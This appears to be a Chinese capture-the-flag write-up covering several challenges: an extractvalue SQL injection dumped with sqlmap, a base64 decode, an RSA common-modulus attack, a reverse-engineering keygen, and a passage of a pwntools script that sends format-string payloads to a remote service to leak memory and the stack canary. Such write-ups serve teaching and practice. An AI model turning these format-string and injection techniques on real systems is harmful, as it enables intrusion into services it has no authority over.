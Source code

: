 因为extractvalue有32位的限制，直接把f1ag加在sqlmap的列的目录里面，直接dump吧

![](http://i.imgur.com/pkyjJZN.png)

# Crypto1 签到

```bash
 ~ echo "ZmxhZ3tXZWlTdW9GeXVfQmllTGFuZ30=" | base64 -D
flag{WeiSuoFyu_BieLang}
```

# Crypt2 200
小强不小心截获了两个老外同服务器的加密通信数据，看看他们在说些什么。。。

在通信流量中能找到 N 和E，猜测密文都是一样的，用共模攻击
得到 `flag{flag{Hc0mm0nModulusR$AH}}`

# Bin1 Now
程序使用自修改代码、第三方标准库等手段，影响静态分析。程序输入在`00402047`处，接着在`004020E9`检查长度是否为9。通过`004038F0`输出调用定位到关键输出在`00402490`函数中，此控制此函数关键之跳的`dword_446184`是在`402640`函数中确定的。细看下此函数，发现关键算法也在此处，将输入和`xmmword_43AC00`分别运算后进行比较，因为`xmmword_43AC00`的计算结果为定值，整理下即可反算出输入`536724689`，代码如下。

```python
check = [0x0b,0x06,0x15,0x0b,0x04,0x0e,0x16,0x10,0x31]
input = ''
for i in range(3):
	s2 = check[3*i+1]/2
	s1 = check[3*i]-2*s2
	s3 = check[3*i+2]-5*s2
	input += chr(s1+0x30)+chr(s2+0x30)+chr(s3+0x30)
print input
```

将输入代入程序即可得到后面一部分的flag：`0IdWan9}`
根据题目提示，终于在文件的详细资料里找到一串base64串，解之得到`flag{aoot@mail:`。
所以最终flag:`flag{aoot@mail:0IdWan9}`。

# Bin2 Magical Box

```python
# -*-coding:utf-8-*-

from pwn import *

context.log_level = "debug"

r = remote("117.34.80.134", 7777)

def leak(addr):
    r.recvuntil("you?\n")
    payload = "aa" + p32(addr) + "%5$s"
    r.sendline(payload)
    r.recvuntil("login!aa")
    r.recv(4)
    data = r.recvuntil("\n")
    data = data.replace("\n","")
    return data

def leak_canary():
    r.recvuntil("you?\n")
    payload = "%7$p"
    r.sendline(payload)
```